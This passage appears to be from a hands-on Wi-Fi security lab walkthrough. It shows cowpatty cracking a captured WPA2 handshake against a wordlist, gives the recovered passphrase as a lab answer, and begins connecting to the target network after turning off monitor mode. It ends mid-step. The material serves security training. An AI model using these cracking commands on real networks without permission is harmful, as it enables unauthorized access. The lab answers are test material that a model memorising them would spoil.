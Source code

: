 Students will proceed to crack the 4-way handshake using `cowpatty` by specifying the packet capture (`AcademyStudent-01.cap`), the dictionary wordlist using the `-f` option located at `/opt/wordlist.txt`, and the ESSID obtained earlier using the `-s` option to obtain the PSK:

Code: shell

```shell
cowpatty -r AcademyStudent-01.cap -f /opt/wordlist.txt -s HackMe
```

```
root@WiFiIntro:/home/wifi# cowpatty -r AcademyStudent-01.cap -f /opt/wordlist.txt -s HackMe

cowpatty 4.8 - WPA-PSK dictionary attack. <jwright@hasborg.com>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.

The PSK is "{hidden}".

18 passphrases tested in 0.03 seconds:  516.96 passphrases/second
```

Answer: `basketball`

# Cracking MIC (4-Way Handshake)

## Question 2

### "Use the obtained WPA PSK to connect to the Wi-Fi network. What is the value of the flag located at 192.168.1.1?"

Students will reuse the previously established RDP session and are going to disable the monitor mode of the `wlan0` (`wlan0mon`) interface using `airmon-ng`:

Code: shell

```shell
sudo airmon-ng stop wlan0mon
```

```
root@WiFiIntro:/home/wifi# sudo airmon-ng stop wlan0mon

PHY	Interface	Driver		Chipset

phy1	wlan0mon	htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

		(mac80211 station mode vif enabled on [phy1]wlan0)

		(mac80211 monitor mode vif disabled for [phy1]wlan0mon)
```

Next, students will create a config file, which they are going to use to connect to the access point (`HackMe`) using the previously found Pre-Shared Key value:
